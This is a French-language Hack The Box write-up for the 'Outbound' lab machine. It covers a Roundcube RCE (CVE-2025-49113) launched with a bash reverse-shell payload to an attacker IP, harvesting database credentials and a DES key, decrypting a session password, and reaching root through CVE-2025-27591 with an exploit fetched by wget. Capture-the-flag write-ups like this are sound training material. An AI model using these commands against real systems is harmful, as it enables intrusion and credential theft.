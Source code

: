 +++
draft = true
date = '2025-10-07T15:00:00+02:00'
title = "Hack The Box Outbound"
description = "Write Up du challenge OutBound"
authors = "Wanako"
tags = ["Hack The Box"]
categories = ["Machine", "Hack The Box", "CVE"]
+++

# Writeup - Outbound

## Reconnaissance

### Scan Nmap
```bash
nmap -A 10.10.11.77
```

**Résultats :**
- **Port 22/tcp** : SSH (OpenSSH 9.6p1)
- **Port 80/tcp** : HTTP (nginx 1.24.0) → Redirection vers `http://mail.outbound.htb/`

On ajoute le domaine au `/etc/hosts` :
```bash
echo "10.10.11.77 mail.outbound.htb" | sudo tee -a /etc/hosts
```

---

## Exploitation initiale

### CVE-2025-49113 (Roundcube Webmail)

Le site web héberge **Roundcube**, vulnérable à la **CVE-2025-49113** (RCE via file upload).

**Exploitation :**
```bash
php CVE-2025-49113.php http://mail.outbound.htb/ tyler LhKL1o9Nm3X2 "bash -c 'nohup bash -i >& /dev/tcp/10.10.14.115/9099 0>&1 &'"
```

On obtient un **shell en tant que `www-data`**.

---

## Énumération post-exploitation

### Configuration Roundcube

Dans `/var/www/html/roundcube/config/config.inc.php` :
```php
mysql://roundcube:RCDBPass2025@localhost/roundcube
$config['des_key'] = 'rcmail-!24ByteDESkey*Str';
```

### Extraction des données MySQL

**Connexion à la base de données :**
```bash
mysql -u roundcube -pRCDBPass2025 roundcube
```

**Tables utiles :**
```sql
SELECT * FROM users;
```

| user_id | username | created             |
|---------|----------|---------------------|
| 1       | jacob    | 2025-06-07 13:55:18 |
| 2       | mel      | 2025-06-08 12:04:51 |
| 3       | tyler    | 2025-06-08 13:28:55 |

**Sessions actives :**
```sql
SELECT * FROM session WHERE sess_id = '6a5ktqih5uca6lj8vrmgh9v0oh';
```

Dans la session de **jacob**, on trouve le mot de passe chiffré :
```
password|s:32:"L7Rv00A8TuwJAr67kITxxcSgnIk25Am/";
```

### Déchiffrement du mot de passe

Roundcube utilise `des_key` pour chiffrer les mots de passe en session. On peut déchiffrer avec :
```php
<?php
$des_key = 'rcmail-!24ByteDESkey*Str';
$encrypted = 'L7Rv00A8TuwJAr67kITxxcSgnIk25Am/';
echo rcube_utils::decrypt_passwd($encrypted, $des_key);
?>
```

**Mot de passe jacob :** `595mO8DmwGeD`

---

## Accès SSH en tant que jacob

```bash
ssh jacob@10.10.11.77
Password: 595mO8DmwGeD
```

### Enumération des mails de jacob

Dans ses mails, on trouve un **nouveau mot de passe** :
```
gY4Wr3a1evp4
```

---

## Escalade de privilèges

### Service vulnérable : CVE-2025-27591

Jacob utilise un service local vulnérable à **CVE-2025-27591** (privilege escalation).

**Exploitation :**

**Sur la machine attaquante :**
```bash
git clone https://github.com/BridgerAlderson/CVE-2025-27591-PoC.git
cd CVE-2025-27591-PoC
python3 -m http.server 80
```

**Sur la machine cible (en tant que jacob) :**
```bash
wget http://10.10.14.115/exploit.py
python3 exploit.py
```

L'exploit permet d'obtenir un **shell root**.

---

## Flags

**User flag :**
```bash
cat /home/jacob/user.txt
```

**Root flag :**
```bash
cat /root/root.txt
```

---

## Résumé

1. **Scan Nmap** → Roundcube sur port 80
2. **CVE-2025-49113** → RCE via upload → shell `www-data`
3. **Extraction MySQL** → Récupération des sessions et mots de passe chiffrés
4. **Déchiffrement** → Mot de passe jacob via `des_key`
5. **SSH jacob** → Énumération mails → nouveau mot de passe
6. **CVE-2025-27591** → Escalade de privilèges → root

---

**Machine pwned! 🚩**
